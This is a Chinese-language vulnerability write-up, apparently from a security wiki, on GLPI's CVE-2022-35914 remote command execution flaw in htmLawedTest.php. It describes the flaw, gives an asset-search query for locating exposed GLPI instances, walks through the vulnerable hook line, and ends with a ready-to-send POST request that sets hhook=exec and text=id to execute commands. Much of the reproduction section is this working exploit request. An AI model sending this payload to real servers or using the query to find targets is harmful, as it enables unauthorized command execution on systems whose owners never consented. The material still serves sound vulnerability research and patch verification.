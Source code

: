 # GLPI htmLawedTest.php 远程命令执行漏洞 CVE-2022-35914

## 漏洞描述

GLPI是个人开发者的一款开源IT和资产管理软件。该软件提供功能全面的IT资源管理接口，你可以用它来建立数据库全面管理IT的电脑，显示器，服务器，打印机，网络设备，电话，甚至硒鼓和墨盒等。GLPI 10.0.2及之前版本存在安全漏洞，该漏洞源于htmlawed 模块中 允许 PHP 代码注入

## 漏洞影响

<a-checkbox checked>GLPI</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="GLPI"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1664764583921-930e166a-74b4-48a3-af34-9bcb1e20fa0f.png)

出现问题的文件为 **htmLawedTest.php，** 来源于第三方库 PHP Labware 

![img](/assets/PeiQi-Wiki/img/1664889433165-f745a7dc-7774-4ff0-abe6-c96d4f2f796c.png)



```sql
https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/
```

在 htmLawedTest.php 中接收参数并传入方法 htmLawed 中

![img](/assets/PeiQi-Wiki/img/1664893382208-bf44fba7-3b95-4197-a2bb-d139ec21f1d9.png)

跟进文件 htmLawed.php 中

![img](/assets/PeiQi-Wiki/img/1664946511507-81cddbd6-de1a-4df9-b7cb-da460b4c1516.png)

```sql
if($C['hook']){$t = $C['hook']($t, $C, $S);}
```

这里可以看到参数均为用户可控参数，当控制参数 hhook 为 exec 和 text 为执行的命令时就导致了命令执行漏洞

![img](/assets/PeiQi-Wiki/img/1664946759678-b3032a67-4717-44f7-a00d-101e690f8b53.png)

验证POC

```sql
/vendor/htmlawed/htmlawed/htmLawedTest.php
```

![img](/assets/PeiQi-Wiki/img/1664764633952-b6bb3e54-7b6a-49c2-94b6-39fd5cb0d032.png)

![img](/assets/PeiQi-Wiki/img/1664764647931-b53cbf79-aa45-48d4-9581-f88a58ff1b61.png)

访问页面获取到 sid 与 token 后再发送请求包

```sql
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 88
Content-Type: application/x-www-form-urlencoded

token=a79cf121bde57fe0e3cc0f247f77961a&text=id&hhook=exec&sid=h1c0vk004dvulal5nj8i6en44e
```

![img](/assets/PeiQi-Wiki/img/1664764696143-4f92e328-735b-4587-987d-1552817796f1.png)
